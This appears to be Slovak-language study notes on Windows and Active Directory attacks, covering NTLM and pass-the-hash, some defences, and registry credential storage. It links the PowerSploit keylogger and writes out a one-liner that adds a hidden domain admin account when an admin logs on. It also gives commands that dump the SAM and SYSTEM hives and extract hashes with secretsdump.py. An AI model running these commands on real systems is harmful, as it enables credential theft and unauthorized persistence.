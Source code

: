 <https://github.com/PowerShellMafia/PowerSploit>

keylogger: <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1>

# NTHASH

databaza active directory v: c:/windows/ntdsPntds.dit

NTLM=antireplay mechanizmus:  
server generuje random salt ako challange ktory sa miesa z nthashom hesla, z toho sa spravi md5 a to sa posiela ako response na challange

LSASS.exe -> overovaci proces

riešenie:

- PAM - priviledged access management
- prihlasovanie smart kartami
- kerberos enforced (ak nie je enforced da sa obyst pristupom cez ip adresy namiesto domenovych nazvov, zlý čas, chýba SPN, SVCXnetwork system, external ad trust), ale musi byt aj smart card is required for interactive logon (navyse digitalne podpíše hash pri kerberos preauthentification) inak sa da pouzit pass the hash

## Spadla z oblakov

ak by sa prihlasil administrator na workstation pocitaci/akomkolvek -> moze byt v msconfig nastaveny program po spusteni

potom napr.: `sc %logonserver% query spooler` -> ak funguje uzivatel je domain admin  
tj: `sc %logonserver% query spooler >NUL && net user majka SpadlaZ0blakov /add /domain && net localgroup administrators /add majka /domain`

# REGISTRE

C:/windows/system32/config == regedit->hkey_local_machine  
SAM - lokalni ucty(nthash)  
SECURITY - domenove ucty CachedCredentials (PBKDF2) (format: domena;login;PBKDF2-MD5(login+nthash))  
SOFTWARE  
SYSTEM - boot key (sifruje pbkdf aj nthashe) (nastavenie v syskey.exe)  

## rozparsovanie - lokalne ucty

### "zaloha" na pc

reg save hklm\system c:\system  
reg save hklm\sam c:\sam

### parsovanie mimo
locate secretdump.py  
```
root@kali20182:/usr/share/doc/python-impacket/examples# ./secretsdump.py -sam /tmp/sam -system /tmp/system local
```
